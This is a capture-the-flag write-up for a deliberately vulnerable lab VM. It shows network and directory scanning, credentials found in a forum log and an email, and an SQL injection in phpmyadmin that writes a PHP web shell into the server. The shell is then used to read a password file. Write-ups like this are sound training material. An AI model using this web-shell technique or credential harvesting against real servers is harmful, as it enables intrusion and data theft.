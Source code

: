 # 1 - Find the VM IP address

```
➜  ~ ifconfig

vboxnet0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.1  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::800:27ff:fe00:0  prefixlen 64  scopeid 0x20<link>
        ether 0a:00:27:00:00:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1468  bytes 300542 (300.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

-> VirtualBox ip address is 192.168.56.1, with a /24 submask.
Let's use nmap to see what hosts are available on this network.
```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.56.0-255
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-15 09:11 EST
Nmap scan report for e3r13p6.clusters.42paris.fr (192.168.56.1)
Host is up (0.0021s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
111/tcp   open  rpcbind
2049/tcp  open  nfs
5900/tcp  open  vnc
9100/tcp  open  jetdirect
34571/tcp open  unknown

Nmap scan report for 192.168.56.105
Host is up (0.0023s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 256 IP addresses (2 hosts up) scanned in 2.81 seconds
```  
-> We know that virtualbox is running on 192.168.56.1, so the VM is running on 192.168.56.105.

-> we see that there are 2 http ports.

# 2 - Find the directories of the website

Let's run dirb to see what urls exist.

```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.56.105 -rSwN 403 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov 15 11:03:23 2022
URL_BASE: http://192.168.56.105/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403
OPTION: Not Recursive
OPTION: Silent Mode
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.105/ ----
==> DIRECTORY: http://192.168.56.105/fonts/
+ http://192.168.56.105/index.html (CODE:200|SIZE:1025)

-----------------
END_TIME: Tue Nov 15 11:03:25 2022
DOWNLOADED: 4612 - FOUND: 1

===============================

┌──(kali㉿kali)-[~]
└─$ dirb https://192.168.56.105 -rSwN 403

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov 15 10:50:46 2022
URL_BASE: https://192.168.56.105/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Ignoring NOT_FOUND code -> 403
OPTION: Not Recursive
OPTION: Silent Mode
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.56.105/ ----
==> DIRECTORY: https://192.168.56.105/forum/
==> DIRECTORY: https://192.168.56.105/phpmyadmin/
==> DIRECTORY: https://192.168.56.105/webmail/

-----------------
END_TIME: Tue Nov 15 10:50:48 2022
DOWNLOADED: 4612 - FOUND: 0

```

# 3 - /forum

Let's check the forum url:
- we see 6 users, admin, lmezard, qudevide, zaz, wandre and thor.
- There is a log file, where we can see different login attempts. One is successful, and we can see the password:  
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

-> login : `lmezard`
password: `!q\]Ej?*5K5cy*AJ`

When we log in with these credentials, we find her email address: `laurie@borntosec.net`

# 4 - /webmail

We can use the same credentials to log into her email account.  
We can find the root credentials for phpmyadmin in one of her emails.  

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

# phpmyadmin

On the SQL Tab, we can inject some sql code.  
<!-- https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/ -->
By injecting `SELECT "<?php system($_GET['cmd']);?>" into outfile "/var/www/forum/templates_c/fichier.php"`, we can create a command shell vulnerability inside the web server.  
System() executes an external program and display the output on the php page.  
By doing some `ls` we find an interesting path, which displays another pair of credentials.  
```
https://192.168.56.105/forum/templates_c/fichier.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```
-> We can log into the VM with these credentials.  



